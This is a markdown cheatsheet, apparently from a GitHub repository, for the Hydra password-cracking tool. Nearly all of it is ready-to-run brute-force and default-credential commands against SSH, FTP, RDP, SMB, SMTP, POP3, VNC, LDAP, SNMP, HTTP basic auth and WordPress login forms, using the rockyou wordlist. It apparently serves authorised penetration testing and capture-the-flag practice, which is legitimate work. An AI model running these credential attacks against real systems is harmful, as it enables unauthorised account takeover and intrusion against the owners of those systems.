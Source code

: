 # Hydra Cheatsheet

Hydra Password Cracking Cheatsheet, the [Original](https://github.com/frizb/Hydra-Cheatsheet), this one is four years old so I made some additions.

Always consider adding the `-e`
```bash
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
```

- Using burp to capture a request and copying and pasting the form names into the command line avoid silly mistakes that are time costly
```bash
# Command 								Description:
hydra -P password-file.txt -v $ip snmp 					# Hydra brute force against SNMP
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp 	# Hydra FTP known user and rockyou password list

# Default FTP credentials
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $ip ftp
 
hydra -v -V -u -L users.txt -P passwords.txt -t 1 $ip ssh 		# Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh 			# Hydra SSH using a known password and a username list
hydra $ip -s 22 ssh -l -P big_wordlist.txt 				# Hydra SSH Against Known username on port 22
hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt -f $ip pop3 -V 	# Hydra POP3 Brute Force
hydra -P /usr/share/wordlists/rockyou.txt $ip smtp -V 			# Hydra SMTP Brute Force
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin 		# Hydra attack http get 401 login with a dictionary
hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://$ip 		# Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P rockyou.txt $ip smb 		# Hydra brute force SMB user with rockyou

# Non Usernames
# redis, adam6500, cisco, oracle-listener, s7-300, snmp and vnc modules are only using the -p or -P option, not login (-l, -L) or colon file (-C)
hydra -P /usr/share/wordlists/rockyou.txt vnc://$ip

# Hydra HTTP Basic Authentication Brute Force
hydra -l admin -P /usr/share/wordlists/rockyou.txt $ip -s $port -f http-get / 

# Hydra brute force a Wordpress admin login
hydra -l username -P wordlist.txt -f 10.10.10.10 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" # READ THE SOURCE
hydra -l admin -P ./passwordlist.txt $ip -V http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' 

hydra -L usernames.txt -P passwords.txt $ip smb -V -f 			# SMB Brute Forcing
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f 			# LDAP Brute Forcing

# Need a cookie

...F=incorrect:H=Cookie:...
```

## References

[Frizb's Hydra Cheatsheet(Original)](https://github.com/frizb/Hydra-Cheatsheet)